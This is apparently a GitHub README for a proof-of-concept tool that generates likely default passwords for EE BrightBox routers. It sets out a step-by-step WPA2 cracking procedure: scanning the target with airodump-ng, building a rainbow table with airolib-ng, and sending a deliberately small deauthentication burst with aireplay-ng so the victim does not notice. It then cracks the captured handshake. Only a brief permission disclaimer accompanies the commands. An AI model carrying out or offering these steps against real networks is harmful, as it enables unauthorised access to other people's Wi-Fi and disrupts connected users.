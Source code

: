 # ee-brightbox
This program creates possible default passwords for ee-brightbox routers. This is just a proof of concept program and uses a small dictionary because of this.

Once this program has generated possible brightbox passwords, they could be hashed and stored in a rainbowtable to make cracking captured WPA2 handshakes faster.

1)  Find the ESSID (name) of the target wireless network by using airodump-ng wlan0
2)  Create a .txt file with just the ESSID of the target network in it. For this example, I will call this file essid.txt
3)  Start to create your rainbowtable - the one in this example will be called ee_rainbowtable. The command is airolib-ng ee_rainbowtable --import essid essid.txt
4)  Import the possible passwords generated using this python program to your new rainbowtable. For this example, I will call this .txt file of possible passwords ee_password.txt The command is airolib-ng ee_rainbowtable --import passwd ee_password.txt
5)  Compute the hashes - this will take a very long time but will speed up future password cracking. The command is airolib-ng ee_rainbowtable --batch
6)  Clean up the rainbowtable before use with this command airolib-ng ee_rainbowtable --clean all
7)  You will need to capture a handshake for the target wireless network if you do not already have one. This can be done by using a deauthenication attack. In order to launch this attack, you will need to know the MAC address of a machine using the wireless network. The BSSID (MAC address of the WAP) can be found using the earlier command of airodump-ng wlan0
8)  Use the BSSID to probe the network further. For this example, I will use the BSSID of 00:11:22:33:44:55 The command is airodump-ng --bssid 00:11:22:33:44:55 wlan0
9)  If there are hosts connected to the target network, their MAC addresses will be visible in the STATION column. For the rest of this example, I will use the MAC address of 66:77:88:99:00:11 for the client machine connected to the network which I will deauthenicate to steal the four-way handshake frames
10)  Start capturing traffic on the target network and write it to a .cap file. I will use the name handshake_1 for this example. The channel number will need to be the same as the channel the target network is using. Now use this command airodump-ng --bssid 00:11:22:33:44:55 --channel 3 --write handshake_1 wlan0
11)  As the traffic is being captured and written to the .cap file, launch the deauthentication attack using only 4 frames so the user of the victim machine does not realise the attack has taken place. Use the target machine's MAC address with the -c flag and the WAP's MAC with the -a flag. The command is aireplay-ng --deauth 4 -a 00:11:22:33:44:55 -c 66:77:88:99:00:11 wlan0
12)  If the attack is successful, you will see WPA handshake: 00:11:22:33:44:55 pop up at the top of the terminal where the capturing of frames is taking place. The capturing and saving of the traffic can now be stopped. When you look in the handshake_1.cap file you should be able to see the four-way handshake frames. Search for EAPOL packets to find them. You should find Message 1 of 4 through to Message 4 of 4 If this is the case, this .cap file can now be used with the rainbowtable of hashed possible passwords to crack the WPA2 password. The command is airocrack-ng -r ee_rainbowtable handshake_1.cap

Of course, the above attacks should only ever be carried out against wireless networks you own or have permission to hack.

Copyright (C) 2020  puz00

    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, version 3.

    This program is distributed in the hope that it will be useful
    and not utilised for evil purposes
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. It could, indeed,
    be a right load of rubbish!
    See the GNU General Public License for more details.

    Check out https://github.com/puz00/ee-brightbox/blob/main/LICENSE
    if you would like to be bored further...
